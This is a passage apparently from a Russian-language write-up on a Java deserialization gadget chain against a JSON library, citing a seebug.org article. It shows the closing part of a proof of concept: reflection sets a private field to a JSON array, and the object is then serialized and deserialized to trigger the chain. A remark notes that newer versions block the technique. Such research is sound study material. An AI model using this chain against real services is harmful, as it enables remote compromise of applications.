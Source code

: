 ```
        Field valfield = val.getClass().getDeclaredField("val");
        valfield.setAccessible(true);
        valfield.set(val, jsonArray);
        ByteArrayOutputStream barr = new ByteArrayOutputStream();
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(barr);
        objectOutputStream.writeObject(val);

        ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(barr.toByteArray()));
        Object o = (Object)ois.readObject();
    }
}
```
### Замечание
На более старших версиях такое не работает, так как в JSON классах используются другие методы для readObject: SecureObjectInputStream.

### Ссылка на оригинальную статью
https://paper.seebug.org/2055/
